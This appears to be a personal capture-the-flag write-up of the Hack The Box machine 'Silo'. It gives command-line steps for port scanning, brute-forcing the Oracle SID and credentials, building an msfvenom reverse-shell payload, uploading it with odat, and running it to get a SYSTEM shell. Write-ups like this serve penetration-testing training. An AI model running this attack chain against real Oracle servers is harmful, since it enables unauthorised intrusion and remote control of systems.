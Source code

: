 **Ping**
```
ping 10.10.10.82
```
![[Pasted image 20240619150849.png]]

Nmap Default Scan
```
nmap 10.10.10.82 -oN dnmap
```
![[Pasted image 20240619151001.png]]

Nmap Script And Service Scan
```
nmap 10.10.10.82 -sV -sC -A -oN snmap
```
![[Pasted image 20240619151702.png]]
![[Pasted image 20240619151716.png]]

Nmap All Port Scan
```
nmap 10.10.10.82 -p- -sC -sV --open -T5 -oN anmap
```
![[Pasted image 20240619151732.png]]
![[Pasted image 20240619151746.png]]

**Oracle Enumeration on port 1521**
First will try to Check is it open to Listen
```
tnscmd10g status -h 10.10.10.82
```
![[Pasted image 20240619160756.png]]
No luck, will use hydra to get SID or Creds
```
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid -t 64 -I
```
![[Pasted image 20240619160901.png]]

Have also used odat to get Valid Sid
```
odat sidguesser -s 10.10.10.82 -p1521
```
![[Pasted image 20240619160713.png]]
Found valid SID, it is XE, using this will get creds

```
odat passwordguesser  -s 10.10.10.82 -p1521 -d XE
```
or 
```
odat all -s 10.10.10.82 -p 1521 -d XE -v
```
it will take time wait to for the complete enumeration
![[Pasted image 20240619161137.png]]
Got it....!


We now have valid credentials: username **scott** and password **tiger** for the server identified as **XE**. We can use these credentials to upload and execute a reverse shell.

Will generate a binary using MSVENOM
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
```
![[Pasted image 20240619161718.png]]

Upload it into the server
```
odat utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile /temp pwn.exe /root/HTB/linux/silo/shell.exe
```
![[Pasted image 20240619161757.png]]

Trigger it catch Reverse Shell, al Set up listener
```
rlwrap nc -nvlp 443
```
```
odat externaltable -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --exec /temp pwn.exe
```
![[Pasted image 20240619161901.png]]
Got it...!
![[Pasted image 20240619161916.png]]
We Are nt/authority, so no need to do Privilege Escalation.....!

User.txt
![[Pasted image 20240619162430.png]]

**Root.txt**
![[Pasted image 20240619162504.png]]


Done with Silo.....:)



